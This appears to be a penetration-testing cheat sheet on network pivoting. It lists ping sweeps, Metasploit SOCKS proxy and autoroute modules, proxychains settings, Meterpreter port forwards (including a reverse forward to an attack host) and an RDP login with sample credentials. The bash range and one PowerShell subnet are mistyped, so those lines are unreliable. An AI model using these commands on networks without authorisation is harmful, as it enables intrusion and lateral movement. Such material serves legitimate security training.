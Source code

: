 `for i in {1...254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`

> For Loop used on a Linux-based system to discover devices in a specified network segment.

`for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"`

> For Loop used on a Windows-based system to discover devices in a specified network segment.

`1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}`

> PowerShell one-liner used to ping addresses 1 - 254 in the specified network segment.

`msf6 > use auxiliary/server/socks_proxy`

> Metasploit command that selects the `socks_proxy` auxiliary module.

`msf6 auxiliary(server/socks_proxy) > jobs`

> Metasploit command that lists all currently running jobs.

`socks4 127.0.0.1 9050`

> Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 4 proxy is used in combination with proxychains on the specified IP address and port.

`Socks5 127.0.0.1 1080`

> Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 5 proxy is used in combination with proxychains on the specified IP address and port.

`msf6 > use post/multi/manage/autoroute`

> Metasploit command used to select the autoroute module.

`meterpreter > help portfwd`

> Meterpreter command used to display the features of the portfwd command.

`meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>`

> Meterpreter-based portfwd command that adds a forwarding rule to the current Meterpreter session. This rule forwards network traffic on port 3300 on the local machine to port 3389 (RDP) on the target.

`xfreerdp /v:localhost:3300 /u:victor /p:pass@123`

> Uses xfreerdp to connect to a remote host through localhost:3300 using a set of credentials. Port forwarding rules must be in place for this to work properly.

`netstat -antp`

> Used to display all (`-a`) active network connections with associated process IDs. `-t` displays only TCP connections.`-n` displays only numerical addresses. `-p` displays process IDs associated with each displayed connection.

`meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>`

> Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on on port 8081 to the port `1234` listening on the IP address of the Attack Host.

`meterpreter > bg`

> Meterpreter-based command used to run the selected metepreter session in the background. Similar to background a process in Linux
